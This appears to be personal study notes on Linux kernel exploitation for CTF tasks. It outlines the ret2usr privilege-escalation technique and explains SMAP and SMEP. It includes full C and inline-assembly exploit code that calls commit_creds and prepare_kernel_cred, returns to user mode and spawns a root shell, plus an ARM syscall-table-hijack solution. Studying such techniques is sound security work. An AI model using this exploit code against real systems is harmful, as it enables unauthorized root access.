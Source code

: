 
## [LinuxKernelPwn](https://www.digitalwhisper.co.il/files/Zines/0x6F/DW111-1-LinuxKernelPwn.pdf)exploit
1. save the process state (`flags, rsp, ss, cs`)
2. while in kernel mode return to your exploit which 
* `commit_creds(prepare_kernel_cred(0));` , you can get their location by reading `/proc/kallsyms` (kernel all symbols)
* return to user mode (`swapgs` & `iretq`) and `system(/bin/sh)`

## [Knote](https://pwning.tech/knote/)

uses the same technique here's the exploit code

```c
long prepare_kernel_cred = 0xDEADC0D3;
long commit_creds = 0xDEADC0DE;
long _proc_cs, _proc_ss, _proc_rsp, _proc_rflags = 0;

void set_ctx_reg() {
    __asm__(".intel_syntax noprefix;"
            "mov _proc_cs, cs;"
            "mov _proc_ss, ss;"
            "mov _proc_rsp, rsp;"
            "pushf;" // push rflags
            "pop _proc_rflags;"
            ".att_syntax");

    printf("[+] CS: 0x%lx, SS: 0x%lx, RSP: 0x%lx, RFLAGS: 0x%lx\n", _proc_cs, _proc_ss, _proc_rsp, _proc_rflags);
}


void spawn_shell()
{
    puts("[+] Hello Userland!");
    int uid = getuid();
    if (uid == 0)
        printf("[+] UID: %d (root poggers)\n", uid);
    else {
        printf("[!] UID: %d (epic fail)\n", uid);
    }

    puts("[*] starting shell");
    system("/bin/sh");

    puts("[*] quitting exploit");
    exit(0); // avoid ugly segfault
}

void privesc_ctx_swp()
{
    __asm__(".intel_syntax noprefix;"
            /**
             * struct cred *prepare_kernel_cred(struct task_struct *daemon)
             * @daemon: A userspace daemon to be used as a reference
             *
             * If @daemon is supplied, then the security data will be derived from that;
             * otherwise they'll be set to 0 and no groups, full capabilities and no keys.
             *
             * Returns the new credentials or NULL if out of memory.
             */
            "xor rdi, rdi;"
            "movabs rax, prepare_kernel_cred;"
            "call rax;" // prepare_kernel_cred(0)

            /**
             * int commit_creds(struct cred *new)
             * @new: The credentials to be assigned
             */
            "mov rdi, rax;" // RAX contains cred pointer
            "movabs rax, commit_creds;"
            "call rax;"

            // setup the context swapping
            "swapgs;" // swap GS to userland

            "mov r15, _proc_ss;"
            "push r15;"
            "mov r15, _proc_rsp;"
            "push r15;"
            "mov r15, _proc_rflags;"
            "push r15;"
            "mov r15, _proc_cs;"
            "push r15;"
            "lea r15, spawn_shell;" // lea rip, spawn_shell ; when returning to userland
            "push r15;"
            "iretq;" // swap context to userland
            ".att_syntax;");
}
```

## Kernel protections
SMAP - Supervisor Mode Access Prevention, sets user-space memory mappings so that **access** to those mappings from supervisor mode will cause a trap.
SMEP - Supervisor Mode Execution Prevention, same as SMAP but for **execution**. (I could have used syscall in `CrabOS` if I disabled it)

### Arm Kernel Exploitation
https://github.com/xairy/linux-kernel-exploitation?tab=readme-ov-file#ctf-tasks
https://pwnfirstsear.ch/2020/05/10/spamandhexctf2020-secstore.html#secstore-1


```c
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define EXPLOIT 222
#define SYS_UPPER 223
#define SYS_CALL_TABLE 0x8000e348

long commit_creds = 0x8003f56c;
long prepare_kernel_creds = 0x8003f924;

void exploit() {
    puts("[+] redirected syscall execution");
    // volatile keyword idicates that the instuctions has important side-effects.
    asm volatile (
        "eor r0, r0\n"
        // "bl prepare_kernel_creds\n"
        // "bl commit_creds\n"
    );
    puts("[+] privileges escaleted");    
}

int main(int argc, char *argv[]) {
    unsigned int** syscall_table = (unsigned int**)SYS_CALL_TABLE;
    char *entry_value = "\x89\x01\x03\x01";
    int hook_address = 0;
    printf("[*] exploit location: %p\n", (void *)exploit);
    
    // overwrite an empty syscall
    syscall(SYS_UPPER, entry_value, &syscall_table[EXPLOIT]);
    syscall(SYS_UPPER, &syscall_table[EXPLOIT], (char *)&hook_address);
    printf("[*] hook address: %p\n", (int *)hook_address);

    // triger hook
    exploit();
    // syscall(EXPLOIT);
    
    return 0;
}

/* 
gcc -Wl,--section-start=.text=0x1030110 sol.c -o sol
*/
```

technique
https://github.com/smallkirby/kernelpwn/tree/master/technique


